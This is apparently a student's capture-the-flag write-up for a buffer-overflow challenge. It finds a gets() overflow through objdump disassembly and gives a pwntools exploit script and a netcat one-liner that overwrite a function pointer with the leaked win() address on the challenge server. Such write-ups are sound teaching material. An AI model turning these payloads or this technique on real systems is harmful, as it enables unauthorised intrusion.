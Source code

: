 jump
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
I didn't run into any problems for this challenge. It was a very simple buffer overflow exercise which we had done in COMP6841 last term. The fact we were given the `win()` address in the program output made it even easier.

Script/Command used (Writeup)
------------------
Running the program reveals we get prompted for input once. By default after we enter something in, the program flow jumps to an address. We are also given an address to a `win()` function which will come in handy.
To make things more fun, I chose to solve this blindly without looking at the source code, so my writeup will just work with the assembly I attained by running `objdump -d -Mintel jump`. -d flag is for "disassemble" and -Mintel tells objdump to use Intel syntax.
Towards the end of the end of the main function we see that an address in eax is called as a function:
```
 8048610:       8b 45 f8                mov    eax,DWORD PTR [ebp-0x8]
 8048613:       ff d0                   call   eax
```
From this we can deduce that there is a function pointer at ebp-0x8. This is obviously the address we were told we were going to jump to, when we ran the program.
Our means of entering data into the program is the vulnerable `gets()` function which allows the reading of an arbitrary amount of bytes into a buffer. `gets()` has no bounds check on the buffer, so we can overflow the buffer. From the assembly below, we see that the buffer starts at ebp-0x48:
```
 80485e1:       8d 45 b8                lea    eax,[ebp-0x48]
 80485e4:       50                      push   eax
 80485e5:       e8 e6 fd ff ff          call   80483d0 <gets@plt>
```
This means if we just fill the space between ebp-0x48 and ebp-0x8 with dummy data, we can then overwrite the value of the function pointer with the `win()` address. So we need 0x48-0x8 = 0x40 = 64 bytes of dummy padding data before we write the address. If we enter this manually we need to remember to write this in little endian form. the `p32()` function from `pwntools` takes care of this for us, so we can just use that.
The exploit script is as follows:

```
from pwn import *

p = remote('plsdonthaq.me', 2001)
#p = process('./jump')

p.recvuntil('at ')
# extract the win() address from the program's output
win_addr = int(p.recvuntil('\n', drop=True), 16)
p.recvline()

padding = 'A'*64 #0x48 - 0x8
payload = padding + p32(win_addr)

p.sendline(payload)
p.interactive()
```
Alteratively, the following one-liner in a terminal also works:
```
(python -c "print 'A'*64 + '\x36\x85\x04\x08'"; cat) | nc plsdonthaq.me 2001
```
Python prints the payload and pipes it into the netcat connection. `cat` is used to keep stdin open, so I can interact with the remote shell.

